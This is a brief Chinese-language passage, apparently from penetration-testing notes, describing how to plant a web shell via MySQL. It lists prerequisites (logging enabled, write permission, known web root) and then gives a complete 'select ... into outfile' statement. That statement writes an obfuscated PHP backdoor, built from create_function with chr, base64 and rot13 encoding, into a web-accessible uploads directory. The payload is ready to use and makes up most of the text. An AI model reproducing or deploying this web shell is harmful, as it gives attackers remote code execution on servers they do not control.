 ![image-20220220214919531](https://raw.githubusercontent.com/aisibuhuipao/img/main/202202202149045.png)

**全局日志必须开启**

**必须有目录写权限**

**必须知道网站的绝对路径**

##### **第二种方法：通过 into outfile 写入shell**

**必须知道网站的绝对路径**

select "<?php $eZGQ=create_function(chr(077660/01614).base64_decode('cw==').base64_decode('bw==').chr(0276600/01600).chr(79083/783),chr(0xebee/0x256).base64_decode('dg==').str_rot13('n').str_rot13('y').chr(0x5758/0x22f).str_rot13('$').chr(01063-0700).chr(107892/972).chr(01457-01302).str_rot13('r').base64_decode('KQ==').chr(0x8f5a/0x26e));$eZGQ(base64_decode('OTExM'.'Tg4O0'.'BldkF'.'sKCRf'.''.chr(47685/561).chr(0151306/01416).str_rot13('9').chr(051530/0376).chr(0456-0330).''.''.base64_decode('Rg==').chr(0275627/01515).chr(0x35b-0x2e3).base64_decode('TQ==').str_rot13('w').''.'NdKTs'.'yNzMz'.'NTY0O'.'w=='.''));?>" into outfile "/var/www/html/uploads/1234.php"
